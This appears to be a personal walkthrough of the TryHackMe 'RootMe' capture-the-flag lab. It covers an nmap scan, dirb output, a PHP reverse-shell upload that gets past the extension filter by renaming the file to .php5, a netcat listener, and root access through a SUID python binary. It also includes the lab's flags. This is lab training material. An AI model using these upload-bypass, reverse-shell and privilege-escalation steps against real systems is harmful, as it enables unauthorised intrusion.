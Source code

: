 # RootMe Notes

Great writeup: https://beginninghacking.net/2020/09/09/try-hack-me-rootme/

1. Scan ports with nmap: "sudo nmap -sS -A <target ip address>"
- 2 ports open: 80 and 22, apache 2.4.29 and ssh respectively

2. Find hidden directories (GoBuster recommended, but I used dirb) (make sure to use http, as the webpage uses http): "dirb http://```<target ip address>```"
> -----------------
>DIRB v2.22    
>By The Dark Raver
>-----------------
>
>START_TIME: Sat Nov 20 04:24:35 2021
>URL_BASE: http://10.10.154.79/
>WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
>
>-----------------
>
>GENERATED WORDS: 4612                                                          
>
>---- Scanning URL: http://10.10.154.79/ ----
>==> DIRECTORY: http://10.10.154.79/css/                                                                                                                                                 
>+ http://10.10.154.79/index.php (CODE:200|SIZE:616)                                                                                                                                     
>==> DIRECTORY: http://10.10.154.79/js/                                                                                                                                                  
>==> DIRECTORY: http://10.10.154.79/panel/                                                                                                                                               
>+ http://10.10.154.79/server-status (CODE:403|SIZE:277)                                                                                                                                 
>==> DIRECTORY: http://10.10.154.79/uploads/                                                                                                                                             
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/css/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/js/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/panel/ ----
>+ http://10.10.154.79/panel/index.php (CODE:200|SIZE:732)                                                                                                                               
>                                                                                                                                                                                        
>---- Entering directory: http://10.10.154.79/uploads/ ----
>(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
>    (Use mode '-w' if you want to scan it anyway)
>                                                                               
>-----------------
>END_TIME: Sat Nov 20 04:24:47 2021
>DOWNLOADED: 9224 - FOUND: 3
- Hidden directory is '/panel/'

3. We can upload a payload and get a reverse shell. Download the file that's included with this writeup, extract the file, and change the port and ip to your machine's ip address and a port that's not being used.

4. If we save this as a .php file and try to upload it, we find that we're allowed to upload .php files. There are several ways of bypassing this, but the easiest way is to just change the file extension so that it'll get accepted into the server and so that it'll run when we try to run it. For example, payload.jpg won't work because the .jpg won't run. So we bypass it by simple changing the extension to .php5, which is another version of php that is not blocked by the server. After uploading, go to "```<target ip address>```/uploads" - which we found earlier with dirb - and make sure that the file has been uploaded

5. Now we set up nc to listen to the port we programmed the script to connect to: "nc -nlvp ```<port>```"

6. Finally, we run the script on the web server with curl: "curl ```<target ip address>```/uploads/```<script name>```", and we should now have access to the server through netcat

7. We're given the name of the file that contains the flag "user.txt", so we simple use the find command: "find / -type f -name user.txt" and we see that the file is at /var/www/user.txt and when we cat it we find that the flag is THM{y0u_g0t_a_sh3ll}

8. Now we need to escalate our privileges to root. We're asked to search for files with the suid permission set - which lets any user execute the file with the permissions of the owner of the file - and find any files that are supicious. To do this we use find again: "find / -perm /4000 2> /dev/null" (we use "2> /dev/null" to get rid of any errors, such as permission errors for files we're not able to access)
>/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/usr/lib/snapd/snap-confine \
>/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic \
>/usr/lib/eject/dmcrypt-get-device \
>/usr/lib/openssh/ssh-keysign \
>/usr/lib/policykit-1/polkit-agent-helper-1 \
>/usr/bin/traceroute6.iputils \
>/usr/bin/newuidmap \
>/usr/bin/newgidmap \
>/usr/bin/chsh \
>/usr/bin/python \
>/usr/bin/at \
>/usr/bin/chfn \
>/usr/bin/gpasswd \
>/usr/bin/sudo \
>/usr/bin/newgrp \
>/usr/bin/passwd \
>/usr/bin/pkexec \
>/snap/core/8268/bin/mount \
>/snap/core/8268/bin/ping \
>/snap/core/8268/bin/ping6 \
>/snap/core/8268/bin/su \
>/snap/core/8268/bin/umount \
>/snap/core/8268/usr/bin/chfn \
>/snap/core/8268/usr/bin/chsh \
>/snap/core/8268/usr/bin/gpasswd \
>/snap/core/8268/usr/bin/newgrp \
>/snap/core/8268/usr/bin/passwd \
>/snap/core/8268/usr/bin/sudo \
>/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/snap/core/8268/usr/lib/openssh/ssh-keysign \
>/snap/core/8268/usr/lib/snapd/snap-confine \
>/snap/core/8268/usr/sbin/pppd \
>/snap/core/9665/bin/mount \
>/snap/core/9665/bin/ping \
>/snap/core/9665/bin/ping6 \
>/snap/core/9665/bin/su \
>/snap/core/9665/bin/umount \
>/snap/core/9665/usr/bin/chfn \
>/snap/core/9665/usr/bin/chsh \
>/snap/core/9665/usr/bin/gpasswd \
>/snap/core/9665/usr/bin/newgrp \
>/snap/core/9665/usr/bin/passwd \
>/snap/core/9665/usr/bin/sudo \
>/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper \
>/snap/core/9665/usr/lib/openssh/ssh-keysign \
>/snap/core/9665/usr/lib/snapd/snap-confine \
>/snap/core/9665/usr/sbin/pppd \
>/bin/mount \
>/bin/su \
>/bin/fusermount \
>/bin/ping \
>/bin/umount

9. Looking through the results, we see nothing suspicious until we see python. Python's an interpreter for the python programming language, and setting SUID on it makes no sense because there's no reason to run it as root; it'll produce the same output no matter who runs it. We check if that's the binary that the challenge is looking for, and it is. "/usr/bin/python"

10. Now we need to write some python code and run it with /usr/bin/python to let us view the contents of the /root directory (it's given that the last flag is called root.txt, so we'll assume that it's located in /root)

11. I tried writing the code inside the shell we got from the reverse shell, but python and vim were acting weird, so I instead wrote the code inside the attacker machine, uploaded it to the server just like we did with the reverse php file, and used "find / -type d -name ```*uploads*``` 2> /dev/null" to find where the files we uploaded were located. I needed to find the location because I couldn't just execute the python file with curl like we did with the php payload. I found that the files were in /var/www/html/uploads

12. After this, I wrote a basic python script to print out the contents or /root
>#!/usr/bin/python \
>import os
>
>print(os.listdir('/root'))

13. I then uploaded that to the server and used "/usr/bin/python /var/www/html/uploads/```filename```", and I see that root.txt is indeed in /root

14. Finally, to print out the contents of root.txt, I wrote this script
>#!/usr/bin/python \
>import os
>
>file = open('/root/root.txt', 'r') \
>print(file.read())

The last flag is THM{pr1v1l3g3_3sc4l4t10n}
